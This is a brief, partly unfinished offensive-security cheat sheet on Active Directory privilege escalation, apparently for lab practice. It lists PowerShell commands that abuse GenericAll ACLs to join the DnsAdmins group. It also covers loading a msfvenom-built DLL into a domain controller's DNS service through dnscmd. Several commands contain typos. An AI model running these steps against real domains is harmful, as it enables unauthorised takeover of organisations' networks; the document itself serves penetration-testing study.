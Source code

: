 # Domain Privilege Escalation

> N.B.: You need a local admin access to do these attacks.

## ACL - Generic All

```powershell
Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}

Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-55465134614643146434643614646467'}
```
Adding yourself as a member

```powershell
Add-DomainGroupMember -Identity 'DnsAdmins' -Members 'student1' 
Get-DomainUser -name 'student1'
Get-DomainGroup -SamAccountName DnsAdmins
```

## ACL - GenericWrite on User

## PrintNightmare (CVE-2021-34527)

## PrivEsc - DNS Admins 

[DNS Admins PrivEsc Guide by iRedTeam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
```powershell
#make a privescl.dll with msfvenom
rundll32.exe .\privesc.dll,DnsPluginInitialize

dnscmd dc.pentesting.local /config /serverlevelplungindll \\student\share\privesc.dll

Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

## DCSync0

## ZeroLogon (CVE-2020-1472)

## Unconstrained delegation

## constrained Delegation

## SET-SPN - Kerberoast

## ASPRoasting
